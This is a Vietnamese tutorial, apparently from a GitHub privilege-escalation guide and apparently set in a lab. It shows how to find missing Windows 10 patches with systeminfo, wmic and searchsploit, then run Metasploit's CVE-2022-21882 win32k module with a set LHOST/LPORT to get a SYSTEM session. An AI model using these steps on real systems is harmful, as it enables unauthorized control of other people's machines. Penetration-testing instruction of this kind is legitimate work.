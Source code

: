 # Khai thác hạt nhân cho hệ điều hành Windows hiện đại

## Săn lùng lỗ hổng hạt nhân

Trong ví dụ này, chúng tôi đã có được chỗ đứng trên máy Windows10 với tư cách là người dùng tiêu chuẩn **bob** .

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/92b5f50b-14f5-4a12-8745-a57f72415cc6)

## Enumerating Kernel Exploits – Manual Method

Cũng giống như bài trước, điều đầu tiên chúng ta cần làm là sử dụng lệnh **systeminfo** để tìm phiên bản hệ điều hành, kiến trúc và quan trọng nhất là các hotfix (KB) đã được cài đặt.

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/95bdaabf-2949-4b5f-a554-fb32c9afec54)

Ở đây chúng ta có thể thấy đây là hệ thống Windows 10 Pro – Build 18362 (version 1903) – x64 (64-bit). Chúng ta cũng có thể thấy rằng có hai hotfix được cài đặt trên máy chủ này.
Để thu thập thông tin về các hotfix được cài đặt trên máy chủ, chúng ta có thể sử dụng lệnh wmic sau :

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/dabe3597-67dc-4a67-bf97-268352cf6cd6)

Ngày cài đặt hotfix rất quan trọng và chỉ ra rằng mục tiêu dễ bị tấn công bởi bất kỳ hoạt động khai thác kernel nào được phát hiện sau ngày này, miễn là phiên bản Windows 10 này bị ảnh hưởng.

Microsoft không còn sử dụng các số bản tin MS như “MS17-010” cho các lỗ hổng được tiết lộ của họ. Kể từ cuối năm 2017/đầu năm 2018, Microsoft hiện sử dụng số CVE liên quan đến lỗ hổng bảo mật. Điều này có nghĩa là đối với các hoạt động khai thác kernel hiện đại, chúng ta sẽ thấy rằng tất cả chúng đều được gắn nhãn là CVE-20XX-XXXX.

Để bắt đầu, chúng tôi có thể Google hai bản sửa lỗi đã cài đặt để xem chúng vá những lỗ hổng nào. Từ đó, chúng tôi sẽ biết mục tiêu của chúng tôi KHÔNG dễ bị tổn thương. Điều này có nghĩa là mọi hoạt động khai thác đối với phiên bản Windows cụ thể này (1903) được phát hiện sau ngày cập nhật hotfix sẽ hoạt động.

Một lần nữa, kỹ thuật này chỉ hoạt động khả thi nếu cài đặt ít hotfix nhất.

## Enumerating Kernel Exploits – Tools

Chúng ta có thể tìm kiếm các cách khai thác bằng cách sử dụng lệnh searchsploit và sau đó sử dụng cách khai thác tích hợp cho một lỗ hổng cụ thể.

Ví dụ: chúng ta có thể sử dụng lệnh sau để xem liệu có bất kỳ cách khai thác nào đối với phiên bản Windows này hay không.

```
searchsploit 1903
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/134c448e-89d3-4e06-9dc7-375fe7ecfd7d)

Từ đây, chúng ta có thể thấy rằng đây đều là các tệp TXT, có thể sẽ có một liên kết bên trong chúng tới kho lưu trữ GitHub có chứa phần khai thác để sử dụng. Chúng ta có thể sao chép các tệp này vào thư mục của mình hoặc vì chúng là tệp TXT, chúng ta chỉ cần sử dụng lệnh định vị để tìm đường dẫn đầy đủ rồi cat tệp. Ví dụ:

```
locate 48267.txt
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/ffa7c236-9825-45d0-9204-3d4d5b836bde)

```
cat /usr/share/exploitdb/exploits/windows/local/48267.txt
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/54e4f7ce-07ce-4c5e-8393-2e16b4305e4c)

Trong tệp TXT chúng ta có thể thấy đây là CVE-2020-0796. Điều này có nghĩa là cách khai thác này mới hơn bản vá mới nhất của mục tiêu và do đó, đây sẽ là một cách khai thác mà chúng tôi có thể sử dụng để nâng cấp lên HỆ THỐNG

## Testing Kernel Exploits and Elevating Privileges to Administrator / SYSTEM
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/42ad56d0-fe82-48e0-a6b9-50f01f9eaebe)

Chúng ta có thể thấy phiên 1 đã mở, điều quan trọng cần lưu ý là chúng ta cần giữ lại số phiên này.

Metasploit có khá nhiều mô-đun để khai thác kernel hiện đại; tuy nhiên, khi chúng tôi cố gắng sử dụng Local Exploit Suggester như chúng tôi đã làm ở bài đăng trước, nó sẽ không mang lại nhiều lợi ích cho chúng tôi.

Thay vào đó, chúng ta có thể sử dụng lệnh nền để thoát khỏi phiên đo lường và sau đó sử dụng lệnh sau để liệt kê các cách khai thác CVE khác nhau hiện có:

```
search exploit/windows/local/cve
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/e2f591c3-1bea-447b-8f60-eba433fe097f)

Tìm kiếm không bao gồm TẤT CẢ các lần khai thác kernel, đó là do Metasploit đã đặt tên một số trong số chúng bằng tên 'phương tiện' chứ không phải số CVE của chúng. Ví dụ: chúng ta có thể thấy SMBGhost có trong danh sách ở đây nhưng COMahawk thì không.

Điều này cung cấp một điểm khởi đầu tốt để chúng tôi thử nghiệm các hoạt động khai thác. Chúng ta có thể bắt đầu bằng cách tham chiếu chéo kết quả đầu ra của Watson và thử nghiệm các hoạt động khai thác xuất hiện trong lần quét đó, chẳng hạn như CVE-2020-0668 và SMBGhost.

Ngoài ra, chúng tôi có thể kiểm tra COMahwk bằng cách tìm kiếm nó theo tên. Tuy nhiên, chúng ta đã thấy cả SMBGhost và COMahawk đều bị khai thác, vì vậy hãy cùng xem một cách khai thác kernel thực sự tốt ảnh hưởng đến rất nhiều phiên bản Windows 10 hiện đại.

```
use exploit/windows/local/cve_2022_21882_win32k
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/c0e3f623-6edc-4d07-b29b-56c8d022e497)

Chúng ta sẽ cần đặt các giá trị SESSION, LHOST và LPORT cho việc này; tuy nhiên, hãy nhanh chóng xem xét tất cả các phiên bản Windows 10 bị ảnh hưởng.

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/d27138e0-07a4-449c-bc04-b9f1de0eb959)

Ồ! Điều này ảnh hưởng đến hầu hết mọi phiên bản Windows 10, cho đến phiên bản mới nhất và cuối cùng trước Windows 11!
Được rồi, bây giờ chúng ta chỉ cần thêm thông tin chi tiết của mình vào khai thác:

```
set SESSION 1
set LHOST 172.16.1.30
set LPORT 8080
show options
```
![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/b72bca40-487f-41df-b912-ac06db903ff5)

Bây giờ mọi thứ đã được thiết lập, chúng ta có thể sử dụng lệnh khai thác và sau đó chúng ta sẽ thấy phiên kiểm tra thứ hai dưới dạng HỆ THỐNG.

![image](https://github.com/Manh130902/Windows-Privilege-Escalation/assets/93723285/5b048fd6-a55e-47d1-84d1-641428656a5e)

